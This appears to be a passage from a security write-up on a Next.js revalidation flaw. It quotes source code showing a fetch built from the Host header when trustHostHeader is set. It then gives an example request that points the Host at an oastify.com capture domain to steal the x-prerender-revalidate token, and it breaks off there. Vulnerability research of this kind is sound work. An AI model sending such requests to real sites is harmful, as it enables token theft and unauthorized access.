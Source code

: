```js
      const cacheHeader =
        res.headers.get('x-vercel-cache') || res.headers.get('x-nextjs-cache')

      if (
        cacheHeader?.toUpperCase() !== 'REVALIDATED' &&
        res.status !== 200 &&
        !(res.status === 404 && opts.unstable_onlyGenerated)
      ) {
        throw new Error(`Invalid response ${res.status}`)
      }
    } else {
      throw new Error(
        `Invariant: missing internal router-server-methods this is an internal bug`
      )
    }
  } catch (err: unknown) {
    throw new Error(
      `Failed to revalidate ${urlPath}: ${isError(err) ? err.message : err}`
    )
  }
}
```

The code checks for whether the application is in preview mode by examining the presence of a specific header, `x-prerender-revalidate`. The presence of this header is crucial for activating debug mode, granting deeper insight into the application's operations. 

Interestingly, further inspection of the code reveals:
```js
if (context.trustHostHeader) {
    const res = await fetch(https://${req.headers.host}${urlPath}, {
    method: 'HEAD',
    headers: revalidateHeaders,
    })
    const cacheHeader =
    res.headers.get('x-vercel-cache') || res.headers.get('x-nextjs-cache')
    ...
```

When **trustHostHeader** is enabled, the server executes a fetch **using the Host header** to construct the URL, incorporating the revalidateHeaders. This behavior opens a potential avenue for HEAD SSRF through Host header injection !

By issuing the following request, we can redirect internal requests and capture responses containing a valid token for debug mode:  

```
GET /api/revalidate HTTP/2
Host: awariwppl8klbxf0rubkq5tfl6rxfn3c.oastify.com
Cookie: session=...
```

This request results in the server performing a HEAD request to the specified Host, allowing interception and retrieval of the x-prerender-revalidate token:
